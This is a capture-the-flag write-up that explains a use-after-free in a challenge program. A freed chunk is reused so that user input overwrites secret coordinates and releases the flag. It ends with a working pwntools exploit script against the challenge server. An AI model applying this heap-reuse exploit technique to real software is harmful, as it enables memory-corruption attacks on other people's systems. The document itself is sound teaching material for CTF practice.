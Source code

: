 ```py
    fgets(buf, 32, stdin);
    guess[1] = atoi(buf);

    if (guess[0] != superSecretHQ->coordinates[0] || guess[1] != superSecretHQ->coordinates[1]) {
        printf("Incorrect guess\n");
        return 1;
    }

    printf("Correct! Welcome to the guild!");

    FILE *flagFile = fopen("flag.txt", "r");
    char flag[32];
    fgets(flag, 32, flagFile);

    printf("Here is the password to enter guild HQ: %s", flag);
    return 0;
}
```
from my analysis, there is `Use-After-Free` vuln\
First, the `main` function allocates a chunk for `HQPlan *superSecretHQ` and initializes it with random data. Crucially, the coordinates are always set to a value `>= 50`.\
The program immediately calls `approveHQ(superSecretHQ)`. This function checks if the coordinates are `>= 50`. Since this is always true, it calls `free(superSecretHQ)`, deallocating the memory. The `superSecretHQ` pointer now dangles, pointing to freed memory\
Right after, the program allocates memory for `buildingPlan*currentBuilding`. Since `sizeof(HQPlan)` and `sizeof(buildingPlan)` are identical (44 bytes), the `malloc` implementation (likely using tcache) reuses the exact same memory chunk that was just freed\
The UAF: As a result, both `superSecretHQ` and `currentBuilding` point to the same memory address. We can now control the data of the "secret" HQ by providing input for our own building plan

Now, our goal is to guess `superSecretHQ->coordinates`, we can simply write our own values into that location and then "guess" them\
```py
# Overwrites HQ->numAcres, HQ->coordinates[0], HQ->coordinates[1]
payload = b"\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00" + b"A" * 20
```
A small trick is required cus `fgets(buf, 32, ...)` reads at most 31 chars if we send a newline. Sending 32 byte payload with `sendline` leaves one byte and a newline in the `stdin` buffer.  Then passing checks, we provide valid inputs for out building's size and coordinates (`< 10` and `< 200`) to pass the `aprrovePlan` checks. When prompted to guess the secret coordinates, we simply enter `1` and `1`, the values we just wrote into memory.

This is the full `solver.py`:
```py
from pwn import *

HOST = "tjc.tf"
PORT = 31489
p = remote(HOST, PORT)
payload = b"\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00" + b"A" * 20

p.recvuntil(b"Enter the name of your building: ")
p.sendline(payload)
p.recvuntil(b"Enter the east-west coordinate or your building (miles east of the city center): ")
p.sendline(b"100")
p.recvuntil(b"Enter the north-south coordinate or your building (miles north of the city center): ")
p.sendline(b"100")
p.recvuntil(b"Enter the east-west coordinate: ")
p.sendline(b"1")
p.sendline(b"1")
p.interactive()
```
